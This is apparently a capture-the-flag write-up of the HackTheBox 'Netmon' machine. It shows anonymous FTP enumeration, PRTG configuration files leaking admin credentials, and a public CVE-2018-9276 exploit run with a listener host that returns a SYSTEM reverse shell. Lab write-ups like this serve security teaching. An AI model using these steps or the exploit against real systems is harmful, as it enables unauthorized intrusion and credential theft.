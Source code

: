 ```yaml
---
title: HTB | Netmon
author: Zeropio
date: 2022-12-24
categories: [Pentesting, HackTheBox]
tags: [htb, windows, easy, machines]
permalink: /pentesting/htb/machines/netmon
---
```


![HTB Img](/assets/img/hackthebox/card/Netmon.png)

# Fingerprint

## Scan

The scan show us:

```
21/tcp    open  ftp          Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 02-02-19  11:18PM                 1024 .rnd
| 02-25-19  09:15PM       <DIR>          inetpub
| 07-16-16  08:18AM       <DIR>          PerfLogs
| 02-25-19  09:56PM       <DIR>          Program Files
| 02-02-19  11:28PM       <DIR>          Program Files (x86)
| 02-03-19  07:08AM       <DIR>          Users
|_02-25-19  10:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        Microsoft Windows RPC
49665/tcp open  msrpc        Microsoft Windows RPC
49666/tcp open  msrpc        Microsoft Windows RPC
49667/tcp open  msrpc        Microsoft Windows RPC
49668/tcp open  msrpc        Microsoft Windows RPC
49669/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

## Enumeration

### FTP

The **anonymous** user is enable, with this command all the ftp can be downloaded:

```bash
wget -m --no-passive ftp://anonymous@10.10.10.152
```

But the `C:\Users\Administrator`{: .filepath} folder is not accesible. Accesing the `config`{: .filepath} folder is also blocked:

```console
ftp> cd Windows
250 CWD command successful.
ftp> cd config
550 The system cannot find the file specified.
```

But we have access to the `C:\Users\Public`{: .filepath} or the `C:\inetpub`{: .filepath}. In the logs there is a reference to a **WebManagementShell**:

```
2019-02-26 02:18:24 10.10.10.152 POST /Service.axd Module=WebObjects&Method=GetSite 8172 netmon\administrator 10.10.14.2 WebManagementShell|7.0.0.0|4.0.30319.42000|System.Windows.Forms.Control - 200 0 0 276
```

All available users in the system can be seen:

```console
ftp> ls -a
229 Entering Extended Passive Mode (|||50599|)
150 Opening ASCII mode data connection.
02-25-19  10:44PM       <DIR>          Administrator
07-16-16  08:28AM       <DIR>          All Users
02-03-19  07:05AM       <DIR>          Default
07-16-16  08:28AM       <DIR>          Default User
07-16-16  08:16AM                  174 desktop.ini
02-02-19  11:35PM       <DIR>          Public
```

Inside `All Users`{: .filepath} there is a bunch of them, but one has a different name, **Paessler**. There we have the folder `PRTG Network Monitor`{: .filepath}.

```console
ftp> ls
229 Entering Extended Passive Mode (|||50695|)
125 Data connection already open; Transfer starting.
12-24-22  07:28AM       <DIR>          Configuration Auto-Backups
12-24-22  06:47AM       <DIR>          Log Database
02-02-19  11:18PM       <DIR>          Logs (Debug)
02-02-19  11:18PM       <DIR>          Logs (Sensors)
02-02-19  11:18PM       <DIR>          Logs (System)
12-24-22  06:47AM       <DIR>          Logs (Web Server)
12-24-22  06:52AM       <DIR>          Monitoring Database
02-25-19  09:54PM              1189697 PRTG Configuration.dat
02-25-19  09:54PM              1189697 PRTG Configuration.old
07-14-18  02:13AM              1153755 PRTG Configuration.old.bak
12-24-22  07:28AM              1680579 PRTG Graph Data Cache.dat
02-25-19  10:00PM       <DIR>          Report PDFs
02-02-19  11:18PM       <DIR>          System Information Database
02-02-19  11:40PM       <DIR>          Ticket Database
02-02-19  11:18PM       <DIR>          ToDo Database
```

Download the config file:

```console
ftp> get "PRTG Configuration.dat"
```

There we can find the following:

```xml
								<login>
                  prtgadmin
                </login>
                <name>
                  PRTG System Administrator
                </name>
                <ownerid>
                  100
                </ownerid>
                <password>
                  <flags>
                    <encrypted/>
                  </flags>
                  <cell col="0" crypt="PRTG">
                    JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA======
                  </cell>
                  <cell col="1" crypt="PRTG">
                    OEASMEIE74Q5VXSPFJA2EEGBMEUEXFWW
                  </cell>
                </password>

```

We search for this user in the three config files we have in the FTP:

```console
$ grep -C 10 prtgadmin 'PRTG Configuration.dat'
$ grep -C 10 prtgadmin 'PRTG Configuration.old'
$ grep -C 10 prtgadmin 'PRTG Configuration.old.bak'
```

Finally, we found cleartext credentials:

```xml
<dbpassword>
	<!-- User: prtgadmin -->
	PrTg@dmin2018
</dbpassword>
```

### HTTP

There is a page with a login prompt for access **PRTG Network Monitor**. The previous credentials will not work at first, but after changing the year to **2019** it will work. The finals credentials are `prtgadmin:PrTg@dmin2019`.

If we look into the source code we can get the version inside a script:

```jsx
(function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
(i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
})(window,document,'script','//www.google-analytics.com/analytics.js','__ga');
__ga('create', 'UA-154425-18', {
'appId':'-10',
'appName':'PRTG Network Monitor (NETMON)',
'appVersion':'18.1.37.13946'
});
```

But once logged in, we can get the exact version: `18.1.37.13946`. Searching for exploits in this version:

```console
$ searchsploit PRTG
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
PRTG Network Monitor 18.2.38 - (Authenticated) Remote Code Execution                                                       | windows/webapps/46527.sh
```

The webpage on the port 47001 and 5985 show a error 404. Fuzzing will not show any other page.

---

# Footprint

## Privilege Escalation

We will use this [exploit](https://github.com/wildkindcc/CVE-2018-9276/pull/1/commits/9653c261aeb5a263cb79a2b805217516bef9baf0), from a commit in the same exploit in [Python2](https://github.com/wildkindcc/CVE-2018-9276):

```console
$ python3 CVE-2018-9276-py3.py -i 10.10.10.152 -p 80 --lhost 10.10.14.3 --lport 80 --password 'PrTg@dmin2019'

C:\Windows\system32>whoami
nt authority\system
```
